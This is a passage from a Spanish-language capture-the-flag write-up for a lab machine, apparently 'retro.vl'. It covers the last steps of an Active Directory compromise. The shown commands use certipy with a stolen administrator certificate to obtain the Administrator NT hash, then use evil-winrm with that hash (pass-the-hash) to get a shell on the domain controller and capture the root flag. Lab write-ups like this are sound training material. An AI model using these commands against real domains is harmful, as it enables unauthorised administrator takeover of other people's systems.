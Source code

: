 ![](../img/77e61b1cc54fd9ef1fcf058af69333b7.png)

### 7. ✅ Autenticación y obtención de hash

```bash
certipy auth -pfx administrator.pfx -dc-ip 10.129.207.162
```

![](../img/711bf716004122e7b1c4e5e906a96787%201.png)

💥 Obtenemos el NT hash de `Administrator`:

```bash
aad3b435b51404eeaad3b435b51404ee:252fac7066d93dd009d4fd2cd0368389
```

### 8. 💣 Acceso con `evil-winrm`

Instalamos y ejecutamos:

```bash
sudo gem install evil-winrm
evil-winrm -i dc.retro.vl -u administrator -H 252fac7066d93dd009d4fd2cd0368389
```

![](../img/0fbbbc1f0014e4fcb9646aa2245cbf0d.png)

### 🏁 Flag de root: 

![](../img/6951cdfc4227be186a3fb2ce6d9d01ea.png)